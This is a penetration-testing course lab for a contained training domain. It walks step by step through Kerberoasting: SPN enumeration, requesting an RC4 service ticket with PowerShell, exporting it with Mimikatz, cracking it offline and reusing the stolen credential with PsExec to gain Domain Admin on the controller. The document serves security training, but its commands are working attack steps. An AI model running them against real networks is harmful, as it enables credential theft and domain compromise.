Lab 5.1: Kerberos
Objectives
- We will obtain RC4 service tickets (TGS) for a service account using an SPN
- We will dump the RC4 service tickets (TGS) to disk using Mimikatz
- We will crack the RC4 service ticket using Tim Medin's Kerberoast toolkit (Kerberoasting)
- We will use the newly identified credentials to pivot to DC01 (10.10.10.5)
Lab Setup
You’ll need to have your Slingshot Windows image booted for this lab. From the Slingshot Windows image, we will access TRINTIY, which is a system joined to the SEC560.local domain for which we have obtained a valid set of domain credentials. From here, our goal is to further escalate our privileges in the domain by compromising a service account.
Lab – Step-by-Step Instructions
Step 1: Open PsExec session to 10.10.10.10
Start by opening a PsExec session to TRINITY (10.10.10.10), which is joined to the SEC560.local domain.
PLEASE MAKE SURE YOU RUN THE FOLLOWING COMMANDS IN A WINDOWS COMMAND PROMPT (NOT POWERSHELL):
In order to obtain access to the TRINITY machine, we will use the Sysinternals PsExec tool. We used the Metasploit version of PsExec during several of our Day 4 labs. Today, we will use the original Microsoft Sysinternals tool. While it's not installed by default, it's an often-used Windows remote administration tool, so its use is often considered benign and not suspicious!
First, cd to the directory where our PsExec is located and list the directory contents using dir :
C:\Users\sec560> cd C:\Tools\SysinternalsSuite C:\Tools\SysinternalsSuite> dir
In the directory, you will find the PsExec64.exe executable, which we will use to start a session toward TRINTITY (10.10.10.10). We will accept the PsExec EULA (using the -accepteula flag) and use a domain user called "john.doe" (using the -u flag):
C:\Tools\SysinternalsSuite> PsExec64.exe -accepteula -u sec560.local\john.doe \\10.10.10.10 cmd.exe
Upon entering the command, you will be requested to enter the password, which is Sec560!

Step 2. Browse the C:\Tools\Kerberoast directory
As indicated during the material, we will use the Kerberoast toolkit, which was developed by Tim Medin. We have already prepared the Kerberoast toolkit for your use on the TRINTIY machine. In an actual penetration test, we may need to copy the toolkit onto the target machine manually. Alternatively, if PowerShell Empire is used, we could use the built-in "Invoke-Kerberoast"!
Tim Medin's Kerberoast toolkit is available in C:\Tools\Kerberoast, we will now browse the folder using cd:
C:\Windows\system32> cd C:\Tools\Kerberoast C:\Tools\Kerberoast> dir

Step 3. Run the GetUserSPNs.vbs script
We will now use the GetUserSPNs.vbs script to enumerate domain users with an SPN (a Service Principle Name).
We will target users with an SPN (a Service Principle Name), as these are service accounts we could target using Kerberoasting. For this, we will use the "GetUserSPNs.vbs" script, which enumerates this information:
C:\Tools\Kerberoast> cscript.exe GetUserSPNs.vbs
The output should reveal two service accounts: one is the krbtgt one; the other one appears to be linked to SQL Server. In a large enterprise environment, you would likely see hundreds or thousands of service accounts. During such an engagement, one would request service tickets for a large number of these accounts, hoping to be able to crack at least one of them.

Step 4. Request a ticket for svcsqlserver
We will now request a service ticket for the target account (svcsqlserver).
The krbtgt account is not interesting in a Kerberoast attack. The reason for this is that it is a service account generated by the system, with a long and highly random password. It is thus not feasible in an offline brute force attack such as Kerberoasting.
We will thus request a service ticket for the SQL Server SPN, hoping that it was set up with a weak password. For this, we will use the following PowerShell commands, which are built-in in Windows and allow us to manually request service tickets:
Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'svcsqlserver/dc01.sec560.local:1433'
In our PsExec session, we will string these two together in one PowerShell invocation (this is a one-line command):
C:\Tools\Kerberoast> powershell.exe -command "Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'svcsqlserver/dc01.sec560.local:1433'"
The output of this command will indicate you now have a valid service ticket in memory.

Step 5. Dumping the ticket with Mimikatz
As a next step, we will use Mimikatz to dump the service ticket to a file.
Now that the service ticket is in memory, we'd like to extract it so we can launch an offline brute force attack. We will do this by using Mimikatz. The Invoke-Kerberoast module in PowerShell Empire doesn't need Mimikatz, so we could consider it to be more stealth.
It's interesting to note that we are now dumping our own service tickets to a file on disk, so we do not require administrative privileges. We will run the Mimikatz kerberos::list /export command to dump the service tickets to disk.
C:\Tools\Kerberoast> cd ..\Mimikatz\x64 C:\Tools\Mimikatz\x64> mimikatz.exe mimikatz # kerberos::list /export mimikatz # exit

In the output of the command, you will notice that there are a number of tickets (depending on the activity on the machine, the number of tickets may be higher or lower). When we built the lab, there were 2 tickets in memory:
- A krbtgt ticket (using the AES encryption type
aes_256_hmac) - An svcsqlserver ticket (using the RC4 encryption type
rc4_hmac_nt)
The krbtgt ticket is to be expected as part of the normal Kerberos operations; we are of course interested in the svcsqlserver ticket, which should be the only one that uses RC4.
The /export flag ensures the tickets were now saved as .kirbi files (please refer to Saved to file for the full filename)!
C:\Tools\Mimikatz\x64> dir

Step 6. Copy the tickets to Windows
We will now move the service tickets offline to our Windows machine, where we will attempt to crack them.
Please close the command prompt you were using up until this point. We will open a Windows explorer window to the TRINITY machine at 10.10.10.10 by entering the following network location: \\10.10.10.10\c$\tools\Mimikatz\x64.
Should you be requested to enter credentials, please use username sec560.local\john.doe and password Sec560!.

Please select the .kirbi files and copy them to your Desktop. Please do NOT move the files.

You can close the Windows file explorer window afterwards.
Step 7. Crack the password
We will now try to crack the password for the svcsqlserver account using Tim Medin's toolkit.
NOTE: If you encounter any issues retrieving the tickets from the domain-joined system (which could happen, as many students are attacking the same machine), please find a back-up .kirbi ticket for the svcsqlserver account in the
C:\CourseFiles\folder on the Windows student Desktop. Should you be unable to retrieve the.kirbifile from the 10.10.10.10 machine, please copy it from theC:\CourseFilesfolder locally instead.

Please open a new, normal command prompt, from which we will now run Tim's toolkit. We will use tgsrepcrack.py, which is a Python-based tool to brute force dumped Kerberos tickets:
C:\Users\sec560> cd C:\Tools\Kerberoast C:\Tools\Kerberoast> python tgsrepcrack.py

You will notice that tgsrepcrack.py requires a few options:
- A dictionary file
- A .kirbi file to attack
We will use the "example.dict" as a dictionary and specify the svcsqlserver ticket (.kirbi file). Note that the name of your svcsqlserver ticket may slightly differ (see the "Saved to file" output from Mimikatz in the previous step). Again, note that we are attacking the svcsqlserver RC4 ticket:
C:\Tools\Kerberoast> python tgsrepcrack.py example.dict C:\Users\sec560\Desktop\1-40a10000-john.doe@svcsqlserver~dc01.sec560.local~1433-SEC560.LOCAL.kirbi
Note: Don't try to type the name of the ticket; use tab completion! Type the first few characters of the filename (or directory), then press tab.
This will run for approximately a minute (as it runs through the dictionary), after which it should reveal the password of Jabbathehut23!

Step 8. Use stolen credential
As a last step, we will now use our freshly stolen credential to access a second server (DC01 - 10.10.10.5).
Please close the Kerberoast command prompt and open a new, standard Windows command prompt. We will again use PsExec64.exe, but now we will set up a session toward the domain controller (DC01 at 10.10.10.5), using our newly compromised account svcsqlserver account. When prompted for the password, please use Jabbathehut23!
C:\Users\sec560> cd C:\Tools\SysinternalsSuite C:\Tools\SysinternalsSuite> PsExec64.exe -accepteula -u sec560.local\svcsqlserver \\10.10.10.5 cmd.exe

You can confirm you are on the Domain Controller as the svcsqlserver account by running the following command:
C:\Windows\system32\> hostname DC01 C:\Windows\system32\> whoami sec560\svcsqlserver

In the new prompt (on the domain controller), run the following command to check the groups we are a member of:
C:\Windows\system32> net groups
One of the groups should be the "Domain Admins" group!

Congratulations! You have successfully cracked a service account with domain admin privileges!
Conclusion
In conclusion, in this lab, we identified a service account that was configured with a weak password. We requested an RC4-encrypted service ticket, which allowed us to launch a brute force attack using Tim Medin's Kerberoast toolkit. Finally, we used the compromised account to obtain domain admin-level privileges in the environment.
Kerberoasting is a highly effective attack technique that does not rely on missing patches or misconfigurations and can thus provide a "way in" in reasonably well-secured environments!